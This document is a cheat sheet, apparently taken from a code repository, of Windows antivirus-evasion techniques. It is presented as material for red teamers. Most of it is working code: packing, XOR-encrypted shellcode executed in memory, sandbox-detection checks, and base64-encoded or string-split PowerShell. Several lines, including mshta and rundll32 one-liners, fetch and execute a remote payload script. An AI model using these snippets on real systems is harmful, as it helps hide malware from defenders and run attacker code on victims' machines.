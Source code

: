 
Here's a cheat sheet with code examples focused on "Introduction to Antivirus Evasion" and "Advanced Antivirus Evasion":

### 4. **Introduction to Antivirus Evasion**

#### **4.1. Packing/Obfuscation**
- **Using UPX to Pack Executables**:
  
  UPX is a popular tool for packing and compressing executables, which can help evade signature-based detection.
  
  ```sh
  upx -9 -o packed.exe original.exe
  ```
  
- **Basic PowerShell Obfuscation**:
  
  PowerShell commands can be obfuscated to avoid detection by AV products.
  
  ```powershell
  $cmd = 'powershell -NoProfile -ExecutionPolicy Bypass -EncodedCommand'
  $encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes("IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"))
  Invoke-Expression "$cmd $encoded"
  ```

#### **4.2. Signature Bypass**
- **Modifying Known Payloads**:
  
  Altering a few bytes or recompiling code can sometimes bypass signature-based detection.
  
  ```c
  // Original malicious payload
  unsigned char shellcode[] = "\xfc\xe8...";
  
  // Modify or XOR the shellcode to bypass signatures
  for (int i = 0; i < sizeof(shellcode); i++) {
      shellcode[i] ^= 0xAA;  // Example XOR operation
  }
  ```
  
- **Obfuscated PowerShell Script**:
  
  Breaks up known malicious keywords to avoid detection.
  
  ```powershell
  $c = "IEX" + " (New-" + "Object Net." + "WebClient).Do" + "wnload" + "String('http://example.com/payload.ps1')"
  Invoke-Expression $c
  ```

#### **4.3. Sandbox Evasion**
- **Checking for Debuggers/Sandbox**:
  
  Insert sleep delays or check for common sandbox indicators.
  
  ```powershell
  Start-Sleep -s 60  # Delay to evade sandboxes with time limits

  # Check if running in a virtual environment
  $hostname = $env:COMPUTERNAME
  if ($hostname -match "VIRTUAL|TEST") {
      Exit
  }
  ```

### 5. **Advanced Antivirus Evasion**

#### **5.1. Custom Cryptors**
- **Encrypting Payloads**:
  
  Use a custom cryptor to encrypt the payload, decrypting it in memory.
  
  ```c
  unsigned char encrypted_shellcode[] = {...}; // Encrypted payload

  // Decrypt the payload in memory before execution
  for (int i = 0; i < sizeof(encrypted_shellcode); i++) {
      encrypted_shellcode[i] ^= 0xAA;  // Decrypt using XOR
  }

  // Execute the decrypted payload
  void (*func)() = (void (*)())encrypted_shellcode;
  func();
  ```

#### **5.2. Living Off the Land (LOLBins)**
- **Using Native Windows Binaries**:
  
  Use signed Windows binaries to execute payloads.
  
  ```sh
  mshta.exe "javascript:a=new%20ActiveXObject('WScript.Shell');a.Run('powershell.exe -NoProfile -ExecutionPolicy Bypass -WindowStyle Hidden -Command IEX(New-Object Net.WebClient).DownloadString(''http://example.com/payload.ps1'');',1,true);close();"
  ```

  ```sh
  rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://example.com/payload.js").Execute();
  ```

#### **5.3. Polymorphism/Metamorphism**
- **Polymorphic Code**:
  
  Change the code structure on each execution to avoid signature detection.
  
  ```powershell
  # Example of generating a unique payload each time
  $payload = "IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"
  $encoded = [Convert]::ToBase64String([Text.Encoding]::Unicode.GetBytes($payload))
  
  $randomVar = "var" + (Get-Random)
  $script = "$randomVar = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('$encoded')); Invoke-Expression $randomVar"
  Invoke-Expression $script
  ```

  - **Dynamic PowerShell Encoding**:

  ```powershell
  $command = "IEX (New-Object Net.WebClient).DownloadString('http://example.com/payload.ps1')"
  $encodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($command))
  $finalCommand = "powershell -NoProfile -ExecutionPolicy Bypass -EncodedCommand $encodedCommand"
  Invoke-Expression $finalCommand
  ```

This cheat sheet provides code examples for evading antivirus detection through basic and advanced techniques. It covers the creation of custom cryptors, the use of native Windows binaries (LOLBins), packing, obfuscation, and sandbox evasion strategies. These examples are geared towards red teamers and penetration testers working in Windows environments.